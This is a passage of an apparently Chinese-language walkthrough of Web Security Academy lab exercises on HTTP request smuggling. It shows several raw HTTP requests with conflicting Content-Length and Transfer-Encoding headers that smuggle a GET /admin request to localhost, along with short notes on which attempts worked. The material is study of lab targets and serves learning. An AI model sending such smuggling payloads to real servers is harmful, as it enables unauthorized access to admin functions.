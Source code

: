 ```http
POST /login HTTP/1.1
Host: ac441f131eb46bf180d01c2800da00dd.web-security-academy.net
Content-Length: 4
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

2a
GET /admin HTTP/1.1
Host: localhost
x: x


0


```

发现不能过。应该是后端错误，那个0就很突兀，应该直接报文格式错误，然后报错了。

现在尝试这个：

```http
POST /login HTTP/1.1
Host: ac441f131eb46bf180d01c2800da00dd.web-security-academy.net
Content-Length: 4
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

29
GET /admin HTTP/1.1
Host: localhost

x
0


```

发现直接就可以进去了。

### 8. Exploiting HTTP request smuggling to reveal front-end request rewriting

> 漏洞：CL.TE，前端服务器会添加一个包含ip地址的请求头。
>
> 要求：用`127.0.0.1`访问`/admin`，删除carlos账户。

我一开始想的是：

```http
POST / HTTP/1.1
Host: acd31f5e1ecfd83d80f9160800050068.web-security-academy.net
Content-Length: 10
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

5c
search=POST / HTTP/1.1
Host: acd31f5e1ecfd83d80f9160800050068.web-security-academy.net

x
0


```
